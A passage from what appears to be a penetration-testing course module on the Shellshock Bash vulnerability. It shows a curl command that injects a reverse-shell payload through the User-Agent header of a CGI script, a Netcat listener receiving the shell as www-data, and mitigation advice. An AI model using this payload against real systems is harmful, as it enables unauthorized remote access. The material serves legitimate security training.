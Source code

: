 ### **Exploitation to Reverse Shell Access**

Once the vulnerability has been confirmed, we can obtain reverse shell access in many ways. In this example, we use a simple Bash one-liner and get a callback on our Netcat listener.

```shell-session
$ curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```

From here, we could begin hunting for sensitive data or attempt to escalate privileges. During a network penetration test, we could try to use this host to pivot further into the internal network.

```shell-session
$ sudo nc -lvnp 7777

listening on [any] 7777 ...
connect to [10.10.14.38] from (UNKNOWN) [10.129.204.231] 52840
bash: cannot set terminal process group (938): Inappropriate ioctl for device
bash: no job control in this shell
www-data@htb:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@htb:/usr/lib/cgi-bin$
```

***

## Mitigation

This [blog post](https://www.digitalocean.com/community/tutorials/how-to-protect-your-server-against-the-shellshock-bash-vulnerability) contains useful tips for mitigating the Shellshock vulnerability. The quickest way to remediate the vulnerability is to update the version of Bash on the affected system. This can be trickier on end-of-life Ubuntu/Debian systems, so a sysadmin may have first to upgrade the package manager. With certain systems (i.e., IoT devices that use CGI), upgrading may not be possible. In these cases, it would be best first to ensure the system is not exposed to the internet and then evaluate if the host can be decommissioned. If it is a critical host and the organization chooses to accept the risk, a temporary workaround could be firewalling off the host on the internal network as best as possible. Keep in mind that this is just putting a bandaid on a large wound, and the best course of action would be upgrading or taking the host offline.

***

## Closing Thoughts

Shellshock is a legacy vulnerability that is now nearly a decade old. But just because of its age, that does not mean we will not run into it occasionally. If you come across any web applications using CGI scripts during your assessments (especially IoT devices), it is definitely worth digging into using the steps shown in this section. You may have a relatively simple foothold awaiting you!
